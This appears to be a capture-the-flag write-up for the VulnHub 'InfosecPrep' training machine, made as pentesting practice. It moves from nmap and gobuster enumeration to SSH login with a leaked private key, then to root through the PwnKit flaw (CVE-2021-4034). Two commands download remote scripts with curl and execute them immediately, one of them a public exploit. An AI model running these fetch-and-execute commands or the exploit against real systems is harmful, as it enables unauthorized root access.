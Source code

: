 # InfosecPrep

## Introduction

This <a href="https://www.vulnhub.com/entry/infosec-prep-oscp,508/">box</a> is meant to be an introduction to pentesting, and is designed to get players familiar with privilege escalation on outdated linux systems.

## Informations

### Key Processes
The machine is hosting a wordpress website<br>
<img src="page.png"><br>
and has 3 open ports :
<img src="assets/ports.png">


## Writeup

### Enumeration

#### nmap
```
sudo nmap -A -O -Pn -p- -T4 -sV 192.168.84.11
```
<img src="assets/enum.png"><br>
Browsing to port 80 takes us to the wordpress website's homepage, which has a very important information which is the username that we're going to use later. <br>

#### Getting into the machine
I tried brute forcing directories to find files or directories that could hold some pieces of information: <br>
```
gobuster -w ./wordslist2.txt -u 192.168.84.11
```
<img src="assets/gobuster.png"><br>
After checking those files, robots.txt had the clue we were looking for : <br>
<img src="assets/robots.png"><br>
<img src="assets/secret.png"><br>
At first glance, it looked like an ssh private key, so I tried to decipher the code using <a href="https://gchq.github.io/CyberChef/">Cyberchef</a> And found that it was an ssh private key base64 encrypted. <br>
```
base64 key -d > private.txt
```
After finding the private key it was time to access the machine using the username that was given to us: 
```
ssh -i private.txt oscp@192.168.84.11
```
<br> And we're finally in!
<img src="assets/machine.png"><br>
It was time then to run <a href="https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS">LinPEAS</a> and check for any vulnabilities that could give us root access to the machine.
```
curl -L https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh | sh
```
The system seemed to be full of vulnerabilities that could be exploited to gain control of the machine, one of them was the <a href="https://blog.qualys.com/vulnerabilities-threat-research/2022/01/25/pwnkit-local-privilege-escalation-vulnerability-discovered-in-polkits-pkexec-cve-2021-4034">polkit vulnerability </a>(CVE-2021-4034).

<img src="assets/info.png"><br>
Exploits written in C couldn't work since there were not any C compilers intalled on the machine, so I either had to use the binaries or get an exploit written in a language that can be compiled/interpreted on the machine and in this case python.<br>
Exploit: https://github.com/joeammond/CVE-2021-4034
```
curl https://raw.githubusercontent.com/joeammond/CVE-2021-4034/main/CVE-2021-4034.py --output exploit.py && python3 exploit.py
```
And voila! We've finally gained control of root and can get the flag from /root
<img src="assets/root.png">
